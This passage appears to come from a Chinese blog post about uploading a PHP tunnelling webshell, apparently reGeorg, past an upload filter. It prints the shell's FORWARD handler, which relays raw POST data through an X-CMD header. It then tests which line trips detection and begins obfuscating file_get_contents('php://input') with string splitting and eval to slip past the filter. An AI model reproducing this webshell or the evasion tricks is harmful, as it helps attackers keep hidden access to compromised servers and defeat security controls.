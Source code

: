 ```php
if ($_SERVER['REQUEST_METHOD'] === 'GET')
{
    exit("Georg says, 'All seems fine'");
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    set_time_limit(0);
    $headers=apache_request_headers();
    $cmd = $headers["X-CMD"];
    switch($cmd){
        /* B 省略
        */
        #  C
	case "FORWARD":
	    {
                @session_start();
                $running = $_SESSION["run"];
		session_write_close();
                if(!$running){
                    header('X-STATUS: FAIL');
	            header('X-ERROR: No more running, close now');
                    return;
                }
                header('Content-Type: application/octet-stream');
		$rawPostData = file_get_contents("php://input");
		if ($rawPostData) {
		    @session_start();
		    $_SESSION["writebuf"] .= $rawPostData;
		    session_write_close();
		    header('X-STATUS: OK');
                    header("Connection: Keep-Alive");
		    return;
		} else {
		    header('X-STATUS: FAIL');
		    header('X-ERROR: POST request read filed');
		}
	    }
	    break;
    }
}
?>

```
&#8195;&#8195;几经尝试最后推测是$rawPostData = file_get_contents("php://input");的原因。把代码分为ABC三部分，AB部分感觉相关性不大就不贴了，说来奇怪：
- 上传未删减的全部代码，失败；
- 注释掉这一句，上传未删减的全部代码，成功，推测可能是这个函数导致；
- 单独上传以上删减后的代码，成功，删除掉的代码并不包含$rawPostData，该变量也只出现在C部分，既然$rawPostData这句是敏感代码，为何能上传成功？请大佬赐教。

&#8195;&#8195;虽然没想明白，但还是用这句话做文章吧，看能否绕过：
- 尝试1，想当然的把代码更改为：
```php
<?php
/* 省略
*/
#$rawPostData = file_get_contents("php://input");
$a = "file_get_conten";
$b = "ts(\"php://input\");";
$rawPostData = eval($a.$b);
/* 省略
*/
?>
```